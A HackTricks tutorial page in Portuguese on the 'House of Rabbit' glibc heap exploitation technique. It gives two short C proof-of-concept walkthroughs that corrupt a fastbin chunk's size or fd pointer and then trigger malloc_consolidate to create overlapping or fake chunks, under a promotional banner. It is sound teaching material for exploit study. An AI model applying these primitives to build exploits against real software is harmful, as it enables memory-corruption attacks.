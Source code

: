# Casa do Coelho

<details>

<summary><strong>Aprenda hacking na AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

### Requisitos

1. **Capacidade de Modificar o Ponteiro fd ou Tamanho do Fastbin**: Isso significa que você pode alterar o ponteiro forward de um pedaço no fastbin ou seu tamanho.
2. **Capacidade de Acionar `malloc_consolidate`**: Isso pode ser feito alocando um grande pedaço ou mesclando o pedaço superior, o que força o heap a consolidar pedaços.

### Objetivos

1. **Criar Pedaços Sobrepostos**: Para ter um pedaço sobreposto com outro, permitindo manipulações adicionais no heap.
2. **Forjar Pedaços Falsos**: Para enganar o alocador fazendo com que um pedaço falso seja tratado como um pedaço legítimo durante operações no heap.

## Etapas do Ataque

### POC 1: Modificar o Tamanho de um Pedaço Fastbin

**Objetivo**: Criar um pedaço sobreposto manipulando o tamanho de um pedaço fastbin.

* **Passo 1: Alocar Pedaços**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **Passo 2: Liberar Chunks**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
* **Passo 3: Modificar o Tamanho do Chunk**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
Alteramos os metadados de tamanho do `chunk1` para 0xa1. Este é um passo crucial para enganar o alocador durante a consolidação.

* **Passo 4: Acionar `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Alocar um grande bloco aciona a função `malloc_consolidate`, mesclando pequenos blocos no fastbin. O tamanho manipulado do `chunk1` faz com que ele se sobreponha ao `chunk2`.

Após a consolidação, o `chunk1` se sobrepõe ao `chunk2`, permitindo uma exploração adicional.

### POC 2: Modificar o Ponteiro FD

**Objetivo**: Criar um bloco falso manipulando o ponteiro fd do fastbin.

* **Passo 1: Alocar Blocos**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Explicação**: Alocamos dois blocos, um menor e um maior, para configurar o heap para o bloco falso.

* **Passo 2: Criar Bloco Falso**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **Passo 3: Liberar o Chunk1**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Explicação**: Liberamos `chunk1`, adicionando-o à lista fastbin.

* **Passo 4: Modificar FD do Chunk1**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Explicação**: Alteramos o ponteiro para frente (fd) do `chunk1` para apontar para o nosso chunk falso dentro do `chunk2`.

* **Passo 5: Acionar `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Alocar um grande bloco novamente aciona o `malloc_consolidate`, que processa o bloco falso.

O bloco falso passa a fazer parte da lista fastbin, tornando-se um bloco legítimo para futuras explorações.

### Resumo

A técnica **House of Rabbit** envolve modificar o tamanho de um bloco fastbin para criar blocos sobrepostos ou manipular o ponteiro fd para criar blocos falsos. Isso permite que os atacantes forjem blocos legítimos no heap, possibilitando várias formas de exploração. Compreender e praticar esses passos irá aprimorar suas habilidades de exploração de heap.
